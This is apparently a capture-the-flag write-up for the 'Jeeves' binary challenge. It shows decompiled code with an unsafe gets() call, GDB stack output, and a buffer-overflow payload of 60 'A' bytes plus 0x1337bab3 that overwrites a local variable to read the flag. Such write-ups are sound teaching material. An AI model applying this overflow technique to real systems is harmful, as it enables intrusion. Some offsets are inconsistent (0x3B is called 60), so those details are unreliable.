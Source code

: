 # Jeeves
We begin by testing how we expect the program to run with a test input:

```
Hello, good sir!
May I have your name? test
Hello test, hope you have a good day!
```

We can now open up the binary using BinaryNinja to inspect the code.

## Code
```
000011e9  int32_t main(int32_t argc, char** argv, char** envp)

000011e9  {
000011f5      int32_t var_c = 0xdeadc0d3;
00001208      printf("Hello, good sir!\nMay I have you…");
00001219      void buf;
00001219      gets(&buf);
00001231      printf("Hello %s, hope you have a good d…", &buf);
00001231      
0000123d      if (var_c == 0x1337bab3)
0000123d      {
00001244          int64_t buf_1 = malloc(0x100);
0000125e          int32_t fd = open("flag.txt", 0);
0000127c          read(fd, buf_1, 0x100);
00001294          printf("Pleased to make your acquaintanc…", buf_1);
000012a3          close(fd);
0000123d      }
0000123d      
000012ae      return 0;
000011e9  }
```

Because the function uses the gets function, we can suspect that this is a **buffer overflow** attack!

## Exploit Formation
To exploit this vulnerability, I want to first locate the position of the buffer, then find where var_c is stored, so that I can overflow the buffer
to alter var_c. Using GDB debugger, I set a break point at 0x555555555231 (attained from my gdb disassembly code using the command 'disass main') to
examine where var_c is stored. The output is as follows:
```
00:0000│ rsi rsp 0x7fffffffdf50 ◂— 'AAAAAAAA'
01:0008│-038     0x7fffffffdf58 ◂— 0x10101000000
02:0010│-030     0x7fffffffdf60 ◂— 2
03:0018│-028     0x7fffffffdf68 ◂— 0x1f8bfbff
04:0020│-020     0x7fffffffdf70 —▸ 0x7fffffffe309 ◂— 0x34365f363878 /* 'x86_64' */
05:0028│-018     0x7fffffffdf78 ◂— 0x64 /* 'd' */
06:0030│-010     0x7fffffffdf80 ◂— 0x1000
07:0038│-008     0x7fffffffdf88 ◂— 0xdeadc0d355555100
```
We can see that 0xdeadc0de3 is stored 0x38 bytes away from the start of the buffer. We can also see that there is 4 bytes of free space before '0xdeadc0d3'
(little Endian format), meaning to overflow the buffer and reach the start of var_c, we must fill 0x3B = 60 bytes. This can be done by sending 60 A's, then
the payload 0x1337bab3.

Exploit: [here](exploit.py)